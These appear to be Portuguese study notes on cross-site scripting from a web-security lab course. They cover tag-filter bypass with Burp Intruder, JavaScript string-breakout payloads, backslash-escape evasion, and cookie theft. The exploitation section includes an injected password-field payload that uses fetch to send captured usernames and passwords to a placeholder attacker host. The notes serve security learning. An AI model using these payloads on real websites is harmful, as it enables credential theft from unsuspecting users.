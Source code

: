 Por exemplo, se a tag é bloqueada, é possível ir no burp intruder e colar todas as tags do [[#Cheat sheet |cheat sheet]] para testar quais tags não estão sendo bloqueadas. O mesmo vale para os atributos que estão sendo bloqueados.

Lab: [[XSS - Reflected XSS with attr blocked]]

Em casos do contexto XSS estar dentro de uma string literal, é possível quebrar.

```js
'-alert(document.domain)-'
';alert(document.domain)//
```

Algumas aplicações para prevenir de escapar de uma string, coloca uma barra invertida antes das aspas. Uma barra invertida antes de um caractere diz ao analisador JavaScript que o caractere deve ser interpretado literalmente, e não como um caractere especial. Nessa situação, os aplicativos muitas vezes cometem o erro de não conseguir escapar do próprio caractere de barra invertida. Isso significa que um invasor pode usar seu próprio caractere de barra invertida para neutralizar a barra invertida adicionada pelo aplicativo.

```js
';alert(document.domain)//
\';alert(document.domain)//
\';alert(document.domain)//
\\';alert(document.domain)//
```

É possível chamar funções sem usar parênteses em casos que o WAF bloqueia elas. Isso é explicado melhor neste [artigo](https://portswigger.net/research/xss-without-parentheses-and-semi-colons).

## Como explorar
### Roubar cookies

Essa é a forma mais tradicional de explorar XSS porém existem algumas limitações que podem te impedir:

- A vítima não estar logada
- A flag `HttpOnly:true`
- Cookies de sessão estar atrelado ao IP do usuário

### Capturar senhas

Para tentar evitar as limitações de roubar os cookies, um outro alvo é usuários que usam preenchimento automático de senhas feita pelos gerenciadores de senhas.

```html
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://IP-ATTACKER',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

## Dangling markup

Esta técnica é para capturar dados *cross-domain* em situações que um ataque comum de XSS não é possível.
